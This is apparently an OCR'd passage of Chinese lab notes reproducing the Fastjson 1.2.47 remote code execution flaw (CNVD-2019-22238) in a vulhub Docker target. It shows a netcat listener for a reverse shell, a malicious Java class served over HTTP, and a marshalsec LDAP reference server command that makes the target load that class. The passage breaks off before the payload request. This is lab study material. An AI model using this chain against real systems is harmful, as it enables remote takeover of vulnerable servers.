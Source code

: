 ### 查看结果 

`docker ps -a` 

得到容器ID 

`docker exec b519a6e5c4c4 ls /tmp`



# 1.2.47 RCE 

## CNVD-2019-22238 

## 环境复现 

### 演示 

LDAP+反弹连接 

### vulnhub启动 

`cd /usr/local/soft/vulhub/fastjson/1.2.47-rce` 

`docker-compose up -d` 

http://192.168.31.76:8090/ 

### 攻击机监听（kali） 

`nc -lvp 9001` 

### 恶意脚本准备与上传（kali）

注意JDK的版本要和靶场的相近,LinuxRevers.java 

java文件不能有包名,可以放在bin目录下直接编译 

将编译好的class上传到/root/vuln/apache 



启动HTTP服务器 

`python -m http.server 8089` py3 

`python –m SimpleHTTPServer 8088` py2 

### LDAP服务启动（kali） 

`cd /root/vuln/apache` 

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi. LDAPRefServer "http://192.168.31.76:8089/#LinuxRevers" 9473` 

### Burp发送payload 
